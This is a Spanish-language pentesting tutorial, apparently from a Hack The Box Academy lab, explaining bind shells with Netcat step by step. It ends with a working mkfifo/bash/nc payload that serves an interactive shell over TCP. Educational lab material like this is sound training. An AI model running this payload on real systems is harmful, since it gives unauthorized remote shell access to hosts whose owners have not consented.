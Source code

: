 # Bind Shells

En muchos casos, trabajaremos para establecer una shell en un sistema en una red local o remota. Esto significa que utilizaremos la aplicación de emulación de terminal en nuestra caja de ataque local para controlar el sistema remoto a través de su shell. Esto generalmente se hace usando una shell _bind_ o _reverse_.

## Bind Shell

Con una _bind shell_, el sistema objetivo inicia un oyente (_listener_) y espera una conexión desde el sistema del pentester (la caja de ataque).

<figure><img src="../../.gitbook/assets/image (702).png" alt=""><figcaption></figcaption></figure>

### **Ejemplo de Bind Shell**

Como se muestra en la imagen, nos conectaríamos directamente con la dirección IP y el puerto que está escuchando en el objetivo. Hay varios desafíos asociados con obtener una shell de esta manera. A continuación, algunos aspectos a considerar:

* Debe haber un oyente iniciado previamente en el objetivo.
* Si no hay un oyente iniciado, tendríamos que encontrar una manera de hacerlo.
* Los administradores típicamente configuran reglas de firewall de entrada estrictas y NAT (con implementación de PAT) en el borde de la red (expuesta al público), por lo que ya tendríamos que estar en la red interna.
* Es probable que los firewalls del sistema operativo (en Windows y Linux) bloqueen la mayoría de las conexiones entrantes que no estén asociadas a aplicaciones confiables.

Los firewalls del sistema operativo pueden ser problemáticos cuando intentamos establecer una shell, ya que necesitamos tener en cuenta las direcciones IP, los puertos y la herramienta utilizada para que nuestra conexión funcione correctamente. En el ejemplo anterior, la aplicación utilizada para iniciar el oyente se llama **GNU Netcat**. **Netcat (nc)** es nuestra "navaja suiza" ya que puede funcionar sobre TCP, UDP y sockets Unix. Es capaz de utilizar IPv4 e IPv6, abrir y escuchar en sockets, operar como proxy, e incluso manejar entrada y salida de texto. Usaríamos `nc` en la caja de ataque como nuestro cliente, y el objetivo sería el servidor.

Vamos a entender más a fondo esto practicando con Netcat y estableciendo una conexión _bind shell_ con un host en la misma red sin restricciones.

## Practicando con GNU Netcat

Primero, necesitamos activar nuestra caja de ataque o **Pwnbox** y conectarnos al entorno de red de la Academia. Luego, asegurarnos de que nuestro objetivo esté iniciado. En este escenario, interactuaremos con un sistema Linux Ubuntu para comprender la naturaleza de una _bind shell_. Para hacerlo, utilizaremos **Netcat (nc)** tanto en el cliente como en el servidor.

Una vez conectados al objetivo mediante SSH, iniciaremos un oyente de Netcat:

**No. 1: Servidor - Objetivo iniciando oyente Netcat**

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
```

En este caso, el objetivo será nuestro servidor, y la caja de ataque será nuestro cliente. Al presionar Enter, el oyente se inicia y espera una conexión desde el cliente.

De vuelta en el cliente (caja de ataque), utilizaremos `nc` para conectarnos al oyente que iniciamos en el servidor.

### **No. 2: Cliente - Caja de ataque conectándose al objetivo**

```bash
sherlock28@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notemos cómo estamos usando `nc` tanto en el cliente como en el servidor. En el lado del cliente, especificamos la dirección IP del servidor y el puerto que configuramos para escuchar (7777). Una vez que nos conectamos con éxito, veremos el mensaje "succeeded!" en el cliente, como se muestra arriba, y un mensaje de conexión recibida en el servidor, como se ve abajo.

### **No. 3: Servidor - Objetivo recibiendo la conexión del cliente**

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!    
```

Sepamos que esto no es una shell propiamente dicha. Es solo una sesión TCP de Netcat que hemos establecido. Podemos ver su funcionalidad escribiendo un mensaje simple en el lado del cliente y viendo cómo se recibe en el servidor.

### **No. 4: Cliente - Caja de ataque enviando el mensaje "Hello Academy"**

```bash
sherlock28@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Una vez que escribimos el mensaje y presionamos Enter, veremos que el mensaje es recibido en el servidor.

### **No. 5: Servidor - Objetivo recibiendo el mensaje "Hello Academy"**

```bash
Victim@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

## Estableciendo una Shell Bind Básica con Netcat

Hemos demostrado que podemos usar Netcat para enviar texto entre el cliente y el servidor, pero esto no es una _bind shell_ porque no podemos interactuar con el sistema operativo ni con el sistema de archivos. Solo podemos pasar texto a través del canal configurado por Netcat. Usemos Netcat para proveer nuestra shell y establecer una verdadera _bind shell_.

En el lado del servidor, necesitaremos especificar el directorio, shell, oyente, trabajar con algunos canales y redireccionamiento de entrada y salida para garantizar que se sirva una shell al sistema cuando el cliente intente conectarse.

### **No. 1: Servidor - Asociando una shell Bash a la sesión TCP**

```bash
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Los comandos anteriores son considerados nuestro _payload_ y entregamos este _payload_ manualmente. Notaremos que los comandos y el código en nuestros _payloads_ variarán dependiendo del sistema operativo del host al que se los entreguemos.

De vuelta en el cliente, utilizaremos Netcat para conectarnos al servidor ahora que una shell en el servidor está siendo servida.

### **No. 2: Cliente - Conectándose a la shell&#x20;**_**bind**_**&#x20;en el objetivo**

```bash
sherlock28@htb[/htb]$ nc -nv 10.129.41.200 7777
Target@server:~$  
```

Veremos que hemos establecido con éxito una sesión de _bind shell_ con el objetivo.
